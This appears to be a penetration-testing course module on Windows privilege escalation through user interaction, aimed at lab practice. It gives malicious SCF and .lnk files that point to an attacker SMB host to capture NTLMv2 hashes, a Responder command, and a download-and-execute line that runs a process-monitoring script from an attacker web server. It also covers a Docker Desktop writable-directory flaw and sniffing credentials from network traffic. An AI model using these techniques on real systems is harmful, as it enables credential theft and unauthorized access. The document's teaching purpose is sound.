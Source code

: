 Users are sometimes the weakest link in an organization. An overloaded employee working quickly may not notice something is "off" on their machine when browsing a shared drive, clicking on a link, or running a file.

Once we have exhausted all options, we can look at specific techniques to steal credentials from an unsuspecting user by sniffing their network traffic/local commands or attacking a known vulnerable service requiring user interaction. One of my favorite techniques is placing malicious files around heavily accessed file shares in an attempt to retrieve user password hashes to crack offline later.

### Placing Malicious Files on Shares
A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation.
##### Malicious SCF File
In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

```powershell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
sudo responder -wrf -v -I tun0
```

##### Capturing Hashes with a Malicious .lnk File
Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### Monitoring for Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

##### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

```powershell
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the `sqlsvc` domain user, which we could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the `backups` share.

### Vulnerable Services

We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software

---
### Traffic Capture

If `Wireshark` is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.

![image](https://academy.hackthebox.com/storage/modules/67/pcap.png)

Here we can see a rough example of capturing cleartext FTP credentials entered by another user while signed into the same box. While not highly likely, if `Wireshark` is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up.

![image](https://academy.hackthebox.com/storage/modules/67/ftp.png)

Also, suppose our client positions us on an attack machine within the environment. In that case, it is worth running `tcpdump` or `Wireshark` for a while to see what types of traffic are being passed over the wire and if we can see anything interesting. The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.
